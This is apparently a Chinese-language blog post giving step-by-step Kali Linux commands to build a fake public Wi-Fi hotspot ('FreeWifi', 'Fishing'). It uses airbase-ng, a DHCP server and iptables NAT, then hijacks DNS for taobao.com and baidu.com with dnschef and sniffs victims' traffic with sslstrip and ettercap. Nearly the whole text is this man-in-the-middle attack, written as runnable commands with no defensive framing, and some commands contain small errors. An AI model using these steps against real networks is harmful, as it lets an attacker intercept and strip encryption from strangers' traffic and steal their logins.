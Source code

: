 ```yaml
---
layout: post
title: "Kali + airbase ng + dhcp"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

虚拟机里有两个网卡，一个有线，一个无线，因为是dhcp服务，所以无线网卡必须可以作为一个ap来用，有线是为了能够连接互联网时使用的，我个人认为只有一个网卡是没法连接到互联网的 ，因为我尝试了多次无线网卡在监听模式下 ，没法连接网络。再有就是,我原本想利用两个无线网卡来做的，可是我关闭了network-manage服务后，无线网卡的配置就不行了，这个要是有哪个大神懂得的话，也欢迎指教一下。
#####
> ifconfig
<pre>
eth0: 192.168.1.100 /24 gw 192.168.1.2
wlan1: 这个没关系 ，待会会出现另一个称作at0的虚拟网卡，我们需要配置这个网卡。
</pre>

####
> airmon-ng check kill
 
先检查以下会影响网卡监听启动的程序，并将其kill掉。以方便我们后面监听模式的开启。
> airmon-ng start wlan0

开启wlan1 的监听模式,假设网卡开启后的名字叫做wlan0

####
> airbase-ng -e "FreeWifi" -c 6 wlan0

在mon网卡上开启ap功能。注意此时，我们利用无线设备可以搜的到该无线网络，但是我们的dhcp服务还没有搭建完成所以该无线网络并不会连接的上。当我们开启了这个功能后就可以看到前面说的虚拟网卡at0了。
####
配置网卡at0：
> ifconfig at0 192.168.2.1 netmask 255.255.255.0

开启网卡at0：
> ifconfig at0 up

配置路由：
> routers add -net 192.168.2.0 netmask 255.255.255.0 gw 192.168.2.1

####配置dhcp服务器：
 在/etc/dhcp/dhcpd.conf 中配置dhcp服务器。我的是如下配置
<pre>
 authritative;#拒绝不正确的IP地址的要求  
 default-lease-time 700;#默认租约
 max-lease-time 8000;#最大默认租约 
 option routers 192.168.2.1;#默认路由 
 domain-name "FreeWiFi";#给予一个域名 
 subnet 192.168.2.0 netmask 255.255.255.0{#关于动态ip分配
 range 192.168.2.101 192.168.2.200;#分配的ip范围
}
</pre>
####
开启ip数据包转发功能：
> echo 1 > /proc/net/ipv4/ip_forward
####开启防火墙中的数据包转发功能
> iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
####开启dhcp服务
>/etc/init.d/isc-dhcp-server start

此时应该就可以实现移动端的连接了，我们可以利用wireshark监听以下这个网卡哦



####建立热点

######工具：isc-dhcp-server  ；Aircrack-ng套件；iptables

######建立过程：

首先写dhcp配置文件/etc/dhcp/dhcpd.conf 

写入如下内容：
<pre>
authoritative;

default-lease-time 700;
max-lease-time 8000;

subnet 10.0.0.0 netmask 255.255.255.0 {
option routers 10.0.0.1;
option subnet-mask 255.255.255.0;

option domain-name-servers 10.0.0.1;

range 10.0.0.10 10.0.0.100;

}
</pre>
这里以10.0.0.1作为网关和dns服务器地址。

然后我们处理无线网卡
<pre>
ifconfig wlan1 down           #wlan1修改成你的网卡
iwconfig wlan1 mode monitor
ifconfig wlan1 up
airmon-ng start wlan1
</pre>
上述命令可以防止出现：Error: Got channel -1, expected a value > 0.

然后用airbase建立热点

airbase-ng -e Fishing -c 11 mon0

热点的网络流量会被虚拟到at0这块网卡上面
<pre>
ifconfig at0 up
ifconfig at0 10.0.0.1 netmask 255.255.255.0
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
</pre>
打开ip转发

> echo 1 > /proc/sys/net/ipv4/ip_forward

开启dhcp

> dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
> 
> service isc-dhcp-server start

然后可以试着用手机连接，应该可以连上但上不了网

于是配置NAT

> iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE #对eth0进行源nat
> 
> iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT #把无线网卡流量转发到有线网卡（或者什么能上网的网卡）上面
>
> iptables -A FORWARD -p tcp --syn -s 10.0.0.0/24 -j TCPMSS --set-mss 1356 #修改最大报文段长度

注意那第三个命令调整MSS，不加后果很严重（我就一直死在这里）

（这里可能还是DNS错误，请看后文中的dns代理服务器搭建）

####劫持DNS

#####工具：dnschef

#####过程：

> dnschef -i 10.0.0.1 --nameserver 210.73.64.1#53

上述命令是以ip10.0.0.1（上文中的fakeap网关和DNS的ip）建立dns，对于所有请求转发到210.73.64.1进行解析。显然这只是个“代理”并没有劫持的功效

于是我们进化：

> dnschef --fakedomains=taobao.com,baidu.com --fakeip=192.168.2.1 -i 192.168.2.1 --nameserver 210.73.64.1#53

把淘宝和百度解析到本机了。

####嗅探
虚拟WiFir热点创建成功，接下来就是嗅探：
> sslstrip -fpk 10000 
> 
> ettercap -Tpuqi at0